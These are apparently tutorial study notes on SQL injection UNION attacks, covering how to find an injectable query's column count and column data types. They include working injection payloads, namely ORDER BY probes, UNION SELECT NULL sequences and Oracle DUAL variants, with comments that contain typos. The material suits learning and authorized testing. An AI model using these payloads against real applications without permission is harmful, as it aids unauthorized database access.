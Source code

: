    

   **Determining the number of columns required in an SQL injection UNION attack**

   For a UNION query to work, two key requirements must be met :

   - The individual queries must return the same number of columns.

     `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

     2 column from table1 and 2  column from table2

   - The data types in each column must be compatible between the individual queries.

   To carry out an SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out:

   - *How many columns* are being returned from the original query?

     ```sql
     -- by adding the at the end of query till error comes out
     -- highest number without error is the number of columns
     ' ORDER BY 1--
     ' ORDER BY 2--
     ' ORDER BY 3--
     ```

   - Which columns returned from the original query are of a suitable *data type* to hold the results from the injected query?

     ```sql
     -- last step we know number of colums
     -- we write number of colums represented with NULLs like this
     ' UNION SELECT NULL--
     ' UNION SELECT NULL,NULL--
     ' UNION SELECT NULL,NULL,NULL--
     -- let's say we have 3 colums we wanna to identifiy data type of each column
     -- try one by one ...
     ' UNION SELECT 'a',NULL,NULL--
     -- if now error thats mean firt column is String next one
     ' UNION SELECT 'a',1,NULL--
     -- if now error thats mean second column is Integer next one
     ' UNION SELECT 'a',1,'a'--
     -- if now error thats mean third column is String
     ```

   Notes :

   - The reason for using `NULL` as the values returned from the injected `SELECT` query is that the data types in each column must be compatible between the original and the injected queries. Since `NULL` is convertible to every commonly used data type, using `NULL` maximizes the chance that the payload will succeed when the column count is correct.
   - On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `DUAL` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`.
   - The payloads described use the double-dash comment sequence `--` to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character `#` can be used to identify a comment.
